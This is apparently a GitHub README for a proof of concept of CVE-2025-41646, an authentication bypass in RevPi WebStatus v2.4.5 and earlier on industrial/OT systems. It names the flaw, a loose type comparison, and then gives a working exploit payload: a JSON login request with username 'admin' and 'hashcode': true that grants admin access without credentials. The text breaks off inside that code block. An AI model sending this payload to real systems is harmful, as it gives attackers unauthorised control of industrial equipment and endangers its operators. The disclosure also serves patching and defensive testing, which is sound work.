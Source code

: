 # CVE-2025-41646---Critical-Authentication-Bypass-
CVE-2025-41646 - Critical Authentication bypass

# 🔓 CVE-2025-41646 - RevPi WebStatus Authentication Bypass PoC

A critical authentication bypass vulnerability (CVE-2025-41646) in RevPi WebStatus ≤ v2.4.5 allows an attacker to log in as **admin** without valid credentials due to weak type comparison logic (`==` vs `===`).

---

## 📌 Affected

- RevPi WebStatus v2.4.5 and below
- Industrial/OT systems running on Raspbian with Apache

---

## 💥 Exploitation

Send a login request with:

```json
{
  "mode": "LOGIN",
  "username": "admin",
  "hashcode": true
}
